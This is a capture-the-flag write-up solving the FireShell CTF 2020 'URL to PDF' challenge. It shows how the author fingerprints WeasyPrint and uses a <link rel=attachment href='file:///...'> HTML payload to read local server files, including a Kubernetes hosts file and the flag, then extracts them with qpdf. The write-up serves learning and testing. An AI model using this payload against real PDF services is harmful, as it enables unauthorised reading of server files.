

Solving URL to PDF from FireShell CTF 2020
Posted on Mon 23 March 2020 in CTF by 0xm4v3rick
The URL to PDF from FireShell CTF 2020 challenge note:
1 2 3 4 5 | Please test our brand new service.
flag is on /flag
https://urltopdf.fireshellsecurity.team/
|
Accessing the URL sends us to a website which converts the page at a given URL to PDF. Immediately a talk related to this comes to mind. Owning the clout through SSRF and PDF generators which highlights issues in PDF generation when inputs are not properly validated when generating PDF primarily allowing SSRF or local file read among other things.
So let's identify the PDF generator as mentioned in the talk. I am using requestbin here as usual to log requests and analyze it.
We see that the user agent is mentioned as WeasyPrint 51 (http://weasyprint.org/)

Now we need to prepare a HTML page which can be provided for PDF conversion via a URL. As mentioned in the talk we will need to use <link rel=attachment href="file:///etc/passwd"> payload as part of the HTML page. I used /etc/hosts instead of usual passwd file. HTML page was as follows. I hosted it using filebin and provide the URL for PDF generator.
1 2 3 | <html>
<link rel=attachment href="file:///etc/hosts">
</html>
|
After downloading the PDF I needed to decode the data from PDF to readable format. Retrieving the contents was something I had to search since results are not displayed directly in the PDF but are hidden inside FlateDecode part of the PDF. The utility mentioned in the talk was not available on the internet or I couldn't find it. After searching around for a while I found a linux utility called qpdf which I used as follows.
1 | qpdf --qdf --object-streams=disable 1f51f044e0ca6c90d995ab9b4e2bd23c.pdf out.pdf
|
Reading the output pdf in text editor gave me the contents of the /etc/hosts as shown.
1 2 3 4 5 6 7 8 9 10 11 12 | >>
stream
# Kubernetes-managed hosts file.
127.0.0.1 localhost
::1 localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
fe00::0 ip6-mcastprefix
fe00::1 ip6-allnodes
fe00::2 ip6-allrouters
10.244.0.22 url-to-pdf-8f9ddf549-prfvm
endstream
endobj
|
Now replacing the /etc/hosts with /flag as mentioned in the challenge note gave me the flag.
1 2 3 4 5 | >>
stream
F#{th4nk5_t0_Ben_Sadeghipour_&_Cody_Brocious}
endstream
endobj
|
Thanks for reading. Feel free to contact me on twitter for any queries or feedback. Cheers!!!